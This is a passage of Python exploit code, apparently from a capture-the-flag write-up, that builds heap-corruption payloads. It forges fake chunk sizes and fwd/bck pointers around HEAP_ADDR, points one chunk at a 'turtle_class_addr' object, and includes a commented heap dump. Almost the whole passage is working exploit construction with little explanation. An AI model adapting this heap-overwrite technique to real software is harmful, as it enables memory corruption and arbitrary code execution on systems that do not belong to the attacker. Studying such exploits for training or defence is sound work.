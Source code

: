```py
                                  # now it's null because it gets overwritten with data anyway
                                  # when allocating the fourth chunk (happens first).
payload += append_nulls(pck(HEAP_ADDR+0x20)) # fourth chunk points back to second chunk, required
                                             # when allocating fourth chunk (happens first)
payload += append_nulls(pck(0x20)) # fifth chunk: prev size for freed fourth chunk
payload += append_nulls(pck(0x20)) # fifth chunk: size is 0x20 and fourth chunk is free
payload += append_nulls(pck(0x0))*2
payload += append_nulls(pck(0x1800000010)) # data for sixth chunk (in-use)
payload += append_nulls(pck(0x21)) # size of seventh chunk and sixth is used
payload += append_nulls(pck(0x0))*3

# 0x13088b0:	0x00000000006014c0	0x0000000000000021
# 0x13088c0:	0x0000000001312640	0x0000000000000000
# 0x13088d0:	0x000000150000000c	0x0000000000000021
# 0x13088e0:	0x000000000133d870	0x0000000001304790
# 0x13088f0:	0x0000000000000020	0x0000000000000020
# 0x1308900:	0x00000000013022a0	0x0000000000000000
# 0x1308910:	0x0000001d0000000c	0x0000000000000021
# 0x1308920:	0x0000000001342660	0x0000000001335230
# 0x1308930:	0x0000000000000020	0x0000000000000020
# 0x1308940:	0x0000000001312650	0x0000000000000000
# 0x1308950:	0x0000001800000010	0x0000000000000021
# 0x1308960:	0x00000000013213e0	0x0000000000000000
# 0x1308970:	0x0000000000000000	0x0000000000000021


# payload2: the new and improved version.
payload2 = append_nulls(pck(turtle_class_addr))
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x60)) # fwd2
payload2 += append_nulls(pck(HEAP_ADDR+0x18)) # bck2
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x0)) # fwd3
payload2 += append_nulls(pck(HEAP_ADDR+0x30)) # bck3
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x18)) # fwd4
payload2 += append_nulls(pck(HEAP_ADDR+0x48)) # bck4
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x30)) # fwd5
payload2 += append_nulls(pck(HEAP_ADDR+0x78)) # bck5
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x60)) # fwd1
payload2 += append_nulls(pck(HEAP_ADDR+0x0)) # bck1
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x48)) # fwd6
payload2 += append_nulls(pck(HEAP_ADDR+0x90)) # bck6
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x78)) # fwd7
payload2 += append_nulls(pck(HEAP_ADDR+0xa8)) # bck7
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x90)) # fwd8
payload2 += append_nulls(pck(HEAP_ADDR+0xc0)) # bck8
```
